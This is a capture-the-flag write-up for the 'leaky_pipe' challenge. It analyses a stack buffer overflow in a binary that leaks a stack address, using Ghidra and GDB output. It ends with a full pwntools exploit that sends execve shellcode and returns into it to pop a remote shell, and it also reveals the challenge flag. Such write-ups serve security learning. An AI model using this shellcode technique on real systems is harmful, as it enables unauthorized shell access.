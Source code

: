# ctf.0xl4ugh_leaky_pipe

### Solution
We were given a binary.
```
file leaky_pipe
leaky_pipe: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=87689ef50fdd96e017be4819a94fe97f3bac65ce, for GNU/Linux 3.2.0, not stripped
```
We first run it to see what it does
```
We have just fixed the plumbing systm, let's hope there's no leaks!
>.> aaaaah shiiit wtf is dat address doin here...  0x7fffb50a6c80
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./leaky_pipe
```
It seems like a buffer overflow because there is a segmentation fault. Moreover there is also a interesting memory address of the stack pointer (SP). Let's look it into ghidra.
```
undefined8 main(void)

{
  basic_ostream *pbVar1;
  basic_ostream<char,std::char_traits<char>> *this;
  ssize_t sVar2;
  undefined8 uVar3;
  undefined local_28 [32];
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           "We have just fixed the plumbing systm, let\'s hope there\'s no leaks!");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           ">.> aaaaah shiiit wtf is dat address doin here...  ");
  this = (basic_ostream<char,std::char_traits<char>> *)
         std::basic_ostream<char,std::char_traits<char>>::operator<<
                   ((basic_ostream<char,std::char_traits<char>> *)pbVar1,local_28);
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            (this,std::endl<char,std::char_traits<char>>);
  sVar2 = read(0,local_28,0x40);
  if (sVar2 < 5) {
    pbVar1 = std::operator<<((basic_ostream *)std::cout,"no smol input plz");
    std::basic_ostream<char,std::char_traits<char>>::operator<<
              ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
               std::endl<char,std::char_traits<char>>);
    uVar3 = 0xffffffff;
  }
  else {
    uVar3 = 0;
  }
  return uVar3;
}
```
This is the main funtion 
We can see that there is an array of 32 elements <code>local_28 [32]</code> that can take an input of some data <code> read(0,local_28,0x40); </code> <br>
Now it's time to use this array to overflow and overwrite the rbp register.
Let's look it into GDB.
```
We have just fixed the plumbing systm, let's hope there's no leaks!
>.> aaaaah shiiit wtf is dat address doin here...  0x7fffffffe010
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000555555555295 in main ()
(gdb) info registers
rax            0x0                 0
rbx            0x0                 0
rcx            0x7ffff7bb3e2e      140737349631534
rdx            0x40                64
rsi            0x7fffffffe010      140737488347152
rdi            0x0                 0
rbp            0x4141414141414141  0x4141414141414141
rsp            0x7fffffffe038      0x7fffffffe038
r8             0x0                 0
r9             0x7fffffffde00      140737488346624
r10            0xfffffffffffff286  -3450
r11            0x246               582
r12            0x5555555550a0      93824992235680
r13            0x0                 0
r14            0x0                 0
r15            0x0                 0
rip            0x555555555295      0x555555555295 <main+252>
eflags         0x10246             [ PF ZF IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
```
We see that the RBP register is overwritten with the hex value 41 that means "A" as we given in input and the RIP register now points at <code>0x555555555295</code> with offset <code> <main+252> </code> <br>
Now we have analyzed the binary. Let's go to write the exploit.
First we need to calculate the offset that is 32 bytes + 8 bytes to overflow the RBP register. We need also a shell code that will pop up the shell. <br>
This is the exploit that I create 
```python
# https://ctf.0xl4ugh.com/
# Import pwntools
from pwn import *

# Establish the target process
elf = ELF("leaky_pipe")
r = remote("ctf.0xl4ugh.com", 4141)
offset = 40
r.recvuntil(">.> aaaaah shiiit wtf is dat address doin here...")
leak = int(r.recvline().strip(), 16)
print(hex(leak))
# Prepare the shellcode
shellcode = asm(shellcraft.sh())
# Make the payload
payload = b""
# This shellcode is originally from: http://shell-storm.org/shellcode/files/shellcode-603.php
# This shellcode will pop a shell when we run it
payload += b"\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
# Padding to the return address
payload += b"A" * (40 - len(payload))
# Overwrite the return address with the address of the start of our input
payload += p64(leak)
# Send the payload, drop to an interactive shell to use the shell we pop
r.send(payload)
r.interactive()

# flag --> Oxl4ugh{waaaah_yaboooooy_kol_daaa_shellcode}
```
Task Resolved, written by FeeeDz
